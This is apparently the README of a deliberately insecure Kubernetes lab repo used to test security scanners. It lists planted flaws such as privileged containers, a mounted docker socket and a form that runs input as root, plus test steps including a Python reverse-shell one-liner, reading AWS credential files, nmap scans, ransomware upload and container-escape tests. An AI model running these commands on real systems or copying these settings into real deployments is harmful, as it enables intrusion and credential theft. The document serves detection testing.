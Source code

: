<p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/LAST?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/LAST)
![GitHub issues](https://img.shields.io/github/issues/latiotech/LAST)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/LAST)
![GitHub](https://img.shields.io/github/license/latiotech/LAST)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

# Insecure Kubernetes Deployments

A repo meant for providing tools for security testing that is comically insecure. Another great tool is [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat), but I wanted more of a playground and less complexity.

## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## Deployment:

1. Create the namespaces `insecure-app` and `workload-security-evaluator`

```
kubectl create namespace insecure-app
kubectl create namespace workload-security-evaluator
```

2. Apply the deployment yamls

```
kubectl apply -f busybox.yaml
kubectl apply -f insecure-app.yaml
kubectl apply -f workload-security-evaluator.yaml
```

3. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n workload-security-evaluator`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`

Readme change
